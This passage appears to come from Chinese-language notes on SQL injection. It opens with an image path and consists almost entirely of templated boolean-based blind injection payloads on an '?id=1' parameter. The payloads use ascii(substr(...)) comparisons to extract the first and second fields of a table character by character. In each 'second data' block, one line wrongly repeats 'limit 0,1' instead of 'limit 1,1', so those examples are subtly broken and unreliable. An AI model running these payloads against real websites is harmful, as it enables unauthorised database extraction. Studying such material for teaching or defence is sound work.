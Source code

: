         ```mysql
         第二个数据 : 
         	?id=1 and ascii(substr((select 第一个字段 from 第二个表 limit 1,1),1,1)) = ascii的字符数字
         	?id=1 and ascii(substr((select 第一个字段 from 第二个表 limit 0,1),2,1)) = ascii的字符数字
         ```

      2. 第二个字段

         ```mysql
         第一个数据 : 
             ?id=1 and ascii(substr((select 第二个字段 from 第二个表 limit 0,1),1,1)) = ascii的字符数字
             ?id=1 and ascii(substr((select 第二个字段 from 第二个表 limit 0,1),2,1)) = ascii的字符数字
         ```

         ```mysql
         第二个数据 : 
             ?id=1 and ascii(substr((select 第二个字段 from 第二个表 limit 1,1),1,1)) = ascii的字符数字
             ?id=1 and ascii(substr((select 第二个字段 from 第二个表 limit 0,1),2,1)) = ascii的字符数字
         ```